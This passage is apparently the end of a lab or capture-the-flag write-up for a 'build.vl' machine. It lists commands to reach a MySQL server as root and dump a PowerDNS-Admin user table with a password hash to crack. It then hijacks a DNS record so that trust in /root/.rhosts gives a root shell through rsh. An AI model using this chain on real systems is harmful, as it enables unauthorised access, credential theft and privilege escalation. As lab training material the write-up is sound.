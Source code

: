 ```bash
proxychains -q mysql -h 172.18.0.1 -u root

show databases;
use powerdnsadmin
select * from user;
```
admin;$2b$12$s1hK0o7YNkJGfu5poWx.0u1WLqKQIgJOXWjjXz7Ze3Uw5Sc2.hsEq

Crack the password and login to ```172.18.0.6```

## Privesc with PowerDNS and RSH

If we go to ```http://172.18.0.6/domain/build.vl``` we can see this 

![alt text](../assets/image_reset-build/lastimage.png)

And if we digging deeper on the docker we found this 

```bash
# cat /root/.rhosts

admin.build.vl +
intern.build.vl +
```
We can therefore try to do DNS hijacking then connect with rsh

[Check this](https://docs.oracle.com/cd/E36784_01/html/E36882/rhosts-4.html)

So change ```intern.build.vl``` to your ip and login with rsh like this 

```bash
rsh -l root 10.10.126.198
```
If you have any questions you can dm me on discord : 'ethicxz.'

